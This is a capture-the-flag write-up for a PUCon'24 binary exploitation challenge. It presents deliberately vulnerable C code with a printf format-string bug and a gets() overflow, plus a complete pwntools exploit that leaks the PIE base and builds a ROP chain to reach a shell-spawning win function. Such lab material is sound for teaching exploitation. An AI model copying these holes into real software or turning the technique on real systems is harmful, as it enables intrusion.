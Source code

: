 ```yaml
---
title: PUCon' 24 - Userspace - Palate
date: '2024-2-17'
tags: ['ctf', 'pwn', 'pie-bypass', 'printf-leak', 'ret2win']
draft: false
summary: Utilizing Format String Vulnerability to leak the address of PIE and then a simple Ret2Win with args.
---
```


## Challenge Description

![alt text](../../../../../public/static/writeups/pucon24/image-25.png)

## Solution

The challenge was very simple and I managed to solve it in under 10 minutes (and also 🩸). In this challenge, we were provided with the source code i.e.:

```c:ret2win_pie.c
#include<stdio.h>
#include<stdlib.h>

// gcc ret2win_pie.c -o ret2win_pie -fno-stack-protector

__attribute__((constructor))
void ignore_me(){
	setbuf(stdin, NULL);
	setbuf(stdout, NULL);
	setbuf(stderr, NULL);
}

void win(long arg1){
	char *cmd = "/bin/sh";

	if (arg1 == 0xdeadbeefcafebabe){
		puts("Congrats!!!");
		execve(cmd, NULL, NULL);
	} 

	else
		puts("Forgot ROP. That's sad :<");
}

int main(int argc, char **argv, char **environ){
	char shot[0x60];

	puts("Aim and hit the bull's eye");
	fgets(shot, sizeof(shot), stdin);
	printf(shot);

	puts("Sad you missed it. Try one more time");
	gets(shot);
}
```

Okay, so, `(thankfully)`, the challenge was not one-shot as I am VERY VERY bad with format strings. We are given a fsb, that we can use to leak the addresses from the stack and then, a simple `gets` buffer overflow to jump to `win`, whilst also providing the argument i.e. `0xdeadbeefcafebabe`.

## Leaking the PIE-base

The exploit was fairly simple. When messing around format strings, I wrote a simple cli tool in python and made a function that I very often use that generates format string patterns for me. You can find the script on this [link](https://gist.github.com/TheFlash2k/2ee4650c3fc850caceb558ef82fa9bd6) (do leave a star if you like it ;))

So, the exploit for this part was fairly, simple.

```py:exploit.py
#!/usr/bin/env python3
# Author: @TheFlash2k

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
encode = lambda e: e if type(e) == bytes else str(e).encode()

def create_fmt(start: int, end: int = 0, atleast: int = 10, max_len: int = -1, with_index: bool = False, specifier: str = "p", seperator: str = '|') -> bytes:
    end = start+atleast if end == 0 else end
    fmt = "{seperator}%{i}${specifier}" if not with_index else "{seperator}{i}=%{i}${specifier}"
    rt = ""
    for i in range(start, end+1): rt += fmt.format(i=i, specifier=specifier, seperator=seperator)
    if max_len <= 0: return rt.encode()
    rt = seperator.join(rt[:max_len].split(seperator)[:-1]) if rt[:max_len][-1] != specifier else rt[:max_len]
    return rt.encode()

exe = "./ret2win_pie"
elf = context.binary = ELF(exe)
libc = elf.libc
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
if args.GDB: gdb.attach(io, "b *main")


fmt = create_fmt(1, 30, with_index=True)
io.sendlineafter(b"eye", fmt)

io.interactive()
```

Now, on running this exploit:

![alt text](../../../../../public/static/writeups/pucon24/image-26.png)

We passed in `30`, but the stdout only printed `uptil` 12. Let's attach GDB, and see what exactly is memory mapping as we need a `PIE` leak.

![alt text](../../../../../public/static/writeups/pucon24/image-27.png)

Now, what we need is a leak that corresponds to PIE, i.e. `0x56xxxxxxxx`, so. Let's change the function call:

```diff
- fmt = create_fmt(1, 30, with_index=True)
+ fmt = create_fmt(13, 22, with_index=True)
```

![alt text](../../../../../public/static/writeups/pucon24/image-28.png)

Let's increase this:

```diff
- fmt = create_fmt(13, 22, with_index=True)
+ fmt = create_fmt(23, 30, with_index=True)
```

![alt text](../../../../../public/static/writeups/pucon24/image-29.png)

Now, looking at these addresses, we can see that, the address at `27th` position corresponds to what looks like `PIE` leak. Let's see this address in GDB.

![alt text](../../../../../public/static/writeups/pucon24/image-30.png)

This address corresponds to the beginning of the main function.

> *NOTE*: During the compeition, I was using my laptop that had the latest version of Arch with latest libc, for this tutorial, I am using Ubuntu 20.04, and the server was also using the latest ubuntu version, so, on my laptop the offset I got was `25` and that syncronized with the remote instance. The leak was for `main` so that was constant, so; instead of `27`, I will be using `25` as my offset in all of my payloads.

So, now, we have a pie-leak. Let's align our elf as well so we can use pwntools' power easily:

```py:exploit.py
fmt = b"|%25$p|"
io.sendlineafter(b"eye\n", fmt)
main_leak = int(io.recvline().split(b'|')[1], 16)
elf.address = main_leak - elf.sym.main
info("pie @ %#x" % elf.address)
io.interactive()
```

## Finding the offset

Well, we've done this thousands of time, so, i'll just skim through this, pass random data to the first input, send cyclic pattern to the second input and check the offset:

![alt text](../../../../../public/static/writeups/pucon24/image-31.png)

The offset came out to be `104`. So, let's note it down.

## Ret2Win

Now, I firstly thought of just jumping past the `arg1 == 0xdeadbeefcafebabe` check however, the `cmd` was declared before this meaning, even if I could jump, I wouldn't be able to have the correct argument in the rdi register to be passed to the `execve` syscall. So, the payload for this was simple. I used `ROP` from pwntools

```py:exploit.py
rop = ROP(elf)
payload = flat(
    cyclic(104),
    rop.rdi.address,
    0xdeadbeefcafebabe,
    rop.ret.address,
    elf.sym.win
)
io.sendlineafter(b"time\n", payload)
```

Running this, I got the shell.

![alt text](../../../../../public/static/writeups/pucon24/image-33.png)

Final exploit that I used was:

```py:exploit.py
#!/usr/bin/env python3
# Author: @TheFlash2k

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
encode = lambda e: e if type(e) == bytes else str(e).encode()

exe = "./ret2win_pie"
elf = context.binary = ELF(exe)
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
if args.GDB: gdb.attach(io, "b *main")

fmt = b"|%25$p|"
io.sendlineafter(b"eye\n", fmt)
main_leak = int(io.recvline().split(b'|')[1], 16)
elf.address = main_leak - elf.sym.main
info("pie @ %#x" % elf.address)

rop = ROP(elf)
payload = flat(
    cyclic(104),
    rop.rdi.address,
    0xdeadbeefcafebabe,
    rop.ret.address,
    elf.sym.win
)
io.sendlineafter(b"time\n", payload)

io.interactive()
```

Running this exploit against remote:

![alt text](../../../../../public/static/writeups/pucon24/image-34.png)

